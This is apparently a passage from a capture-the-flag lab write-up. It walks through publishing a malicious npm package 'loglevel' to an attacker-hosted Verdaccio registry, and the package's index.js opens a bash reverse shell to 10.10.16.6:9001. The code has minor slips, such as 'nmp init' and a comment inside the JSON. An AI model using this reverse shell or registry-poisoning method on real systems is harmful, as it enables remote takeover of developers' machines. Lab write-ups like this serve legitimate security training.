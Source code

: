 ```bash
echo 'registry=http://10.10.16.12:4873/' > ~/.npmrc
```

Let’s set up a private registry now using verdaccio on our attack host:

```bash
sudo apt install docker.io
sudo docker pull verdaccio/verdaccio
sudo docker run -it --rm -p 4873:4873 verdaccio/verdaccio
```

Now we can make our malicious package, name a file index.js:

```bash
require("child_process").exec("bash -c 'bash -i >& /dev/tcp/10.10.16.6/9001 0>&1'")
function log(msg) {
	console.log("[+] " + msg)
}
module.exports.log = log
```

Now we can create the package and publish our local registry:

```bash
nmp init

#just enter a name and version
{
  "name": "loglevel",
  "version": "1.9.2", #version has to be larger than normal one
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "description": ""
}

```

In order to publish onto the repo, we first have to create a user:

```bash
npm adduser --registry http://10.10.16.12:4873 --auth-type=legacy

npm notice Log in on http://10.10.16.12:4873/
Username: test
Password: 
Email: (this IS public) test@test.htb
Logged in on http://10.10.16.12:4873/.

```

Now let’s publish:

```bash
npm version patch
npm publish --registry http://10.10.16.12:4873 
```
